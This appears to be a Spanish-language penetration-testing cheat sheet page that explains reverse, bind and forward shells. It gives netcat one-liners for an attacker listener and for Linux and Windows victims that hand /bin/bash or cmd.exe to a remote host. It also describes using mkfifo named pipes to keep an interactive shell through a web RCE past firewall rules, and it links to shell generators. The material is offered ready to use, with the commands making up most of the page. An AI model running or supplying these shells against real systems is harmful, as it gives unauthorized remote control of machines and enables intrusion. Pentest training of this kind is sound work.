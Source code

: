 # Shells

## Reverse Shell

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).&#x20;
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha

### Victima Linux

```bash
nc <IP> <Port> -e /bin/bash
```

### Víctima Windows

```bash
nc.exe <IP> <Port> –e cmd.exe
```



## Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

### Atacante Linux

```bash
nc <IP Target> <Port>
```

### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}

## Forward Shell

Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Puedes encontrar casos en los que tienes un RCE (Remote Code Execution) en una aplicación web en una máquina Linux pero debido a reglas Iptables u otro tipo de filtrado no puedes obtener una shell inversa.&#x20;

Esta técnica o tipo de "shell" te permite mantener un shell PTY a través de ese RCE usando tuberías dentro del sistema víctima.&#x20;

{% embed url="https://github.com/IppSec/forward-shell" %}

Sólo necesitas modificar La URL del host vulnerable El prefijo y sufijo de tu payload (si lo hay) La forma en que se envía el payload (¿encabezados? ¿datos? ¿información extra?) Luego, sólo tienes que enviar comandos o incluso utilizar el comando upgrade para obtener un PTY completo (ten en cuenta que las tuberías se leen y escriben con un retardo aproximado de 1,3s).



## Referencias

Generador de Revershells

{% embed url="https://www.revshells.com/" %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
